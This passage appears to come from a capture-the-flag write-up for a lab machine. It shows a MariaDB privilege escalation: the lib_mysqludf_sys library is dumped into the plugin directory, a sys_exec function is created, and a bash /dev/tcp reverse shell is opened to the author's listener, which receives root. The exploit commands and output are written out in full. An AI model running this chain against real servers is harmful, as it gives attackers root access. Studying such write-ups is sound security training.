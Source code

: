 ```sql
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create table npn(line blob);
Query OK, 0 rows affected (0.005 sec)

# Change PATH if necessary here
MariaDB [mysql]> insert into npn values(load_file('/home/svc/lib_mysqludf_sys.so'));
Query OK, 1 row affected (0.002 sec)

MariaDB [mysql]> select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
Query OK, 0 rows affected (0.001 sec)

# Before executing this command make sure you have Netcat listenner ready!
# Also change this according to your listener IP and port
MariaDB [mysql]> select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.27/8080 0>&1"');
```

After all that a `root` reverse shell arrive to the listener and we can get the final flag under `/root/root.txt`:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.160] 38376
bash: cannot set terminal process group (950): Inappropriate ioctl for device
bash: no job control in this shell
root@noter:/var/lib/mysql#
```

If you are having problems getting the library to load, make sure you execute all the commands fast. There is a script in place that reset all changes to the MySQL service and can troll a bit.
